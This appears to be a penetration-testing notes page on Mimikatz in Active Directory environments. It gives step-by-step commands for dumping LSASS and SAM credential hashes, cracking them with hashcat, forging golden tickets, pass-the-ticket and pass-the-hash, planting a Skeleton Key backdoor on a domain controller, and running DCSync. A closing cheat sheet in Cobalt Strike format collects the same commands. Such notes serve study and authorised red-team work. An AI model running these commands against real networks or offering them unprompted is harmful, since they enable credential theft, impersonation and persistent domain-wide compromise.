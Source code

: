 # MimiKatz

_Used for dumping user credentials inside of a active directory network_

{% embed url="https://github.com/gentilkiwi/mimikatz" %}

**Summary**

* [Dumping Hashes](broken-reference/)
* [Golden tickets attack](broken-reference/)
* [Silver Ticket](broken-reference/)
* [Pass the ticket](broken-reference/)
* [Kerberos backdoors](broken-reference/)

## Dumping hashes

`cd Downloads && mimikatz.exe` this will cd into the directory that mimikatz is kept as well as run the mimikatz binary

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

`privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

`lsadump::lsa /patch` Dump those hashes!

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Crack those hashes w/ hashcat

`hashcat -m 1000 <hash> rockyou.txt`

## Golden Tickets Attack

We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

`cd downloads && mimikatz.exe`

`privilege::debug` ensure this outputs \[privilege "20" ok]

`lsadump::lsa /inject /name:krbtgt` This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

### Create golden ticket

`kerberos::golden /user: /domain: /sid: /krbtgt: /id:`

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### Access other machines with golden ticket

`misc::cmd` - This will open a new command prompt with elevated privileges to all machines

Access other Machines! - You will now have another command prompt with access to all other machines on the network

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

## Silver Ticket

If a password of a service account is stolen, it can be used to impersonate a user

## Pass the Ticket

Pass the ticket works by dumping the TGT from the LSASS memory of the machine.

`cd Downloads` - navigate to the directory mimikatz is in

`mimikatz.exe` - run mimikatz

`privilege::debug` - Ensure this outputs \[output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

`sekurlsa::tickets /export` - this will export all of the .kirbi tickets into the directory that you are currently in

At this step you can also use the base 64 encoded tickets from Rubeus that we harvested earlier

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Take the admin one

Now that we have the ticket, we can perform a pass the ticket attack `kerberos::ptt <ticket>` - run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

`klist` - Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

You now have impersonated the ticket giving you the same rights as the TGT you're impersonating. To verify this we can look at the admin share.

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

## Kerberos Backdoors

### Skeleton Key

The skeleton key works by abusing the AS-REQ encrypted timestamps, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

`cd Downloads && mimikatz.exe` - Navigate to the directory mimikatz is in and run mimikatz

`privilege::debug` - This should be a standard for running mimikatz as mimikatz needs local administrator access

**Installing Skeleton Key**

`misc::skeleton`

**Accessing the forest** Example : `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

`dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

## Commands - CheatSheet

```bash
#The commands are in cobalt strike format!

#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```
